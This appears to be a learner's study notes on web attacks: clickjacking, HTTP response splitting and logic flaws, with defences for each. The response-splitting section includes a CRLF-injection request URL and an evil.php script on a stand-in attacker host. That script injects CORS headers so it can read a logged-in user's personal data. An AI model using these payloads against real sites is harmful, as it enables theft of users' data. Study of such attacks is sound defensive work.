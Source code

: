 # ClickJacking
- Clickjacking is a technique, also known as User Interface (UI) redressing
- Technically, an attacker that wants to perform this attack crafts a malicious HTML page. This page can contain two overlapping layers, one malicious and the other the actual target of the click.
- malicous layer is what is visible to the user and contain innocuous(غير موذية) resource that the vivtim should feel secure clicking it
- the target layes is included via iframe is invisible to the victim and contain resource that will actuelly be clicked
   - this layer usually contain a button that will perform and operation that the victim would be unwilling to perform under normal circumstances
- That attack comprimises Four Steps
  - Feasability Study
  - Building Of a malicous web page
  - spreading the malicous page link
  - waiting for victim to click
- Clickjacking can be leveraged to perform a wide number of attacks such as:
	- forcing users to click on ads
	- performing any action that only requires clicking on a website
- clickjacking defenses
	- The Old School : Tries to avoid clickjacking by using JavaScript code
	- The Current School : HTTP response headers, Content Security Policy, Browser Frame-Breaker
		- It can have two different values: 
			- SAME ORIGIN : The document may be shown inside an iframe only if the container page (under the control of the attacker) and the contained document share the same origin.
			- DENY : The document may not be shown inside an iframe, regardless of the container’s origin.
			- X-Frame-Options
- Watch Video
# HTTP Response Splitting
- This type of Header Injection attack occurs when an attacker `sends` arbitrary data to the server and this data is `returned` as part of the HTTP response.
- Goal : Split the Response into two parts by means of special characters CRLF:
	-  CR (Carriage Return) – `[ \r ]`
	-  LF (Line Feed) – `[ \n ]`
- the use of these charachters is related to how the http protoclo determines the begining of the http response header ( affects all browsers )
- goal of the attacker is to craft http response by sending malicious input including the crafted headers and the special charachters
- A `Header injection` attack would add new Headers to the current HTTP Response block.
- but this attack not only injecting data into headers but alos creating a new http response block with new headers
- Example :
	- A web application puts User Input into one of the Response Headers. This header is Set-Cookie.
	- xss
	- `GET http://target.site/trackUrl.php?url=http://elsfoo.com%0d%0aHTTP/1. 1%20200%20OK%0d%0aContent%2dType:%20text/html%0d%0aContent%2dLengt h:%2039%0d%0a%0d%0a`	
- Bypass Same Origin Policy
- Example
	- Suppose a webpage named getPersonalData.php returns the personal data of the currently logged-in user and that the page is vulnerable to HTTP response splitting (in the trackingUrl parameter).
	- Attacker build a malicious page with this URL http://attacker.site/evil.php.
	- The following is the code of evil.php:
```
	<script>
function loadXMLDoc()
 {
 var xmlhttp;
 xmlhttp=new XMLHttpRequest();
 xmlhttp.withCredentials = true;
 xmlhttp.onreadystatechange=function()
 {
 if (xmlhttp.readyState==4 && xmlhttp.status==200)
 {
 document.getElementById("responseDiv").innerHTML=xmlhttp.responseText;
 }
 }
 
xmlhttp.open("GET","http://target.site/getPersonalData.php?trackingUrl=test%0d%0aAcces
s-Control-Allow-Origin:%20http://attacker.site%0d%0aAccess-Control-AllowCredentials:%20true",true);
 xmlhttp.send();
 }</script>
```

- Best Defensive
	- Filter the input data
	- PHP
	- `header(“Location: elsfoo.com”);`
	- PHP v5.1.4 both critical characters CR and LF have been denied within the function header
- read the examples again it wont take 10 min form the orignal PDF
# Logic Flow
- The best way to detect them is by analyzing the transaction chart of all the processes that the web application provides.
